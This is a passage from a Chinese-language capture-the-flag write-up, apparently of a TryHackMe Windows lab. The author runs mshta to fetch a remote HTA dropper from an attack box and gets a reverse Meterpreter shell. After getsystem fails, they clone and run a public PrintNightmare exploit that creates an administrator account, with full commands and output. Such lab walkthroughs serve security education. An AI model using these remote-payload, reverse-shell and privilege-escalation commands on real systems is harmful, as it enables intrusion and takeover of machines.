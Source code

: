 在目标机器的命令提示符下运行了命令`mshta.exe http://<attackbox ip>:8080/dropper.hta` 之后，我得到了一个反向的 Meterpreter shell，并开始与它进行交互:

```
**msf6 exploit(windows/misc/hta_server) >** [*] Sending stage (175174 bytes) to <target ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> atlas.thm:49859 ) at [redacted] -0400**msf6 exploit(windows/misc/hta_server) > sessions -i 1**
[*] Starting interaction with 1...**meterpreter >**
```

为了获得系统权限，我将尝试 Meterpreter 的`priv`模块附带的传统`getsystem`命令:

```
**meterpreter > getsystem**
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
**meterpreter >**
```

看来`getsystem`不行了。该室建议通过 PrintNightmare 漏洞向量提升权限([微软安全响应中心，2021](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) )。特别是，建议竞争者使用由 Stewart 和 Hammond (2021) 设计的 PrintNightmare 实现。

首先，我将把它的存储库克隆到攻击框上的我的项目文件夹中:

```
**┌──(dna@deniers)-[~/atlas]
└─$ git clone https://github.com/calebstewart/CVE-2021-1675**
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
Receiving objects: 100% (40/40), 131.12 KiB | 2.22 MiB/s, done.
Resolving deltas: 100% (9/9), done.

**┌──(dna@deniers)-[~/atlas]
└─$**
```

然后在 Meterpreter 会话中，我在系统上启动了一个`shell`接口，然后启动了 PowerShell 并启动了漏洞利用:

```
**meterpreter > powershell_shell**
**PS > . \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1
PS > Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll[*] atlas.thm - Meterpreter session 1 closed.  Reason: DiedTerminate channel 1? [y/N] ***Y***
[-] Error running command powershell_shell: Rex::TimeoutError Operation timed out.
```

从输出来看，看起来像是用用户名`adm1n`和密码`P@ssw0rd`创建了一个新的管理员帐户。现在，我将以这个新管理员用户的身份运行 Windows 命令提示符，方法是右键单击命令提示符并输入新创建的凭证(参见图 6):
